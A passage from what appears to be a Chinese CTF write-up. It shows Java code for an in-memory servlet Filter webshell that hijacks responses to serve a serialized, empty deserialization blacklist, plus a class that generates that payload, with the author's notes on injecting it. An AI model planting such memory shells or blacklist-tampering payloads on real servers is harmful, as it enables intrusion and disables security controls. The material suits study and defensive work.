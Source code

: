 ```java
        return null;
    }

    public static Field getField(Class<?> cls, String fieldName) {
        Field field = null;
        try {
            field = cls.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (cls.getSuperclass() != null)
                field = getField(cls.getSuperclass(), fieldName);
        }
        return field;
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletResponse resp = (HttpServletResponse) response;
        String data = "rO0ABXNyABNqYXZhLnV0aWwuQXJyYXlMaXN0eIHSHZnHYZ0DAAFJAARzaXpleHAAAAABdwQAAAABdAAHbm90aGluZ3g=";
        String retData = "{" +
                "\"message\": \"" + data + "\"," +
                "\"code\": \"200\"" +
                "}";
        resp.getWriter().write(retData);
        // 没有doFilter 不进控制器直接返回
    }
}
```

好吧，Filter内存马不好使，要打两次才行(或许是lastServicedResponse的原因?)，得加载两次字节码，类名还得不同，麻烦。

网上找了其他师傅写的Spring内存马，太好用了！orz

生成无效黑名单👇

```java
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.ArrayList;
import java.util.Base64;
import java.util.List;

public class EmptyBlackList {
    public static void ser(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
    }

    public static void main(String[] args) throws Exception {
        List<String> list = new ArrayList<>();
        list.add("nothing");
        ser(list);
        // rO0ABXNyABNqYXZhLnV0aWwuQXJyYXlMaXN0eIHSHZnHYZ0DAAFJAARzaXpleHAAAAABdwQAAAABdAAHbm90aGluZ3g=
    }
}
```
